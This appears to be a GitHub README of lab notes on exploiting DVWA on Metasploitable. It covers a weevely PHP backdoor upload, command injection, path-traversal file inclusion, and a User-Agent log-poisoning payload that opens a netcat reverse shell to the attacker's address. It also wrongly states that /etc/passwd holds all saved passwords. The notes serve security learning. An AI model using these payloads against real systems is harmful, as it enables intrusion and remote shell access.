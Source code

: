 # basic vulnerabilities in Metasploitable
## File Upload Vulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/dbc0885c-2112-4832-989f-a6c8dba0eb44)
> 
> __medium__ - we rename the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the filename to php.
>![Screenshot 2024-04-12 224041](https://github.com/stellados53/kali_commands/assets/142677726/9d3a9640-817f-446f-91cc-f09b4c5d2baf)
> 
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.
> ![Screenshot 2024-04-12 224407](https://github.com/stellados53/kali_commands/assets/142677726/e202b0e8-1ee3-44e0-8f28-a04c6d404255)
- overall output will be..
 ![Screenshot 2024-04-12 224454](https://github.com/stellados53/kali_commands/assets/142677726/5c02d3fb-e53e-4ed3-85c7-477390b703c7)


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
- Now you can execute any command of kali linux such as pwd, ls -la.
- the execution will be done.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/d22e5048-15cd-491b-817f-f2a79979e8d3)
>
> __high__ is not even possible

<h3 align="center"> ... </h3> 

## File Inclusion Vulnerability
- it allows you to read  any file in the same server.
- access files outside www directory.
- generally to get the commands to be executed in the kali linux we use  `cat etc/passwd`, the same we use in the file url to extract all the saved passwds.
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
- by using this command we can get the all saved passwords saved in the webserver.
- ![Screenshot 2024-04-12 222928](https://github.com/stellados53/kali_commands/assets/142677726/615af2ec-4ac3-4ca6-a33b-28a323ed794a)
- by modifing the useragent from mozilla to `<?phpinfo();?>` using bruiteforce proxy(header)..we get the php information about the website
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/faab1ae4-f1dc-4578-9098-b2995c78dc04)
- by modifing the useragent to `<?passthru("nc -e /bin/sh 192.168.11.128 8888");?>` in the bruiteforce header for the connect of the website..and the terminal of kali linux `nc -vv -l -p 8888` to make connection.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/26b2674a-e047-4c5f-8f72-bc938ca5ed35)

- Now as reference from the above use the another executable urls.
 ```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../..//proc/self/environ
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/auth.log
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/apache2/access.log
```
- ![Screenshot 2024-04-12 231128](https://github.com/stellados53/kali_commands/assets/142677726/9cc2d6f4-169b-41f9-b5d6-82513acb37b7)
- from above image the first one  `proc/self/environ` we get..
- ![Screenshot 2024-04-12 231736](https://github.com/stellados53/kali_commands/assets/142677726/ab250e34-700e-49c3-bcb9-500b88edd38c)

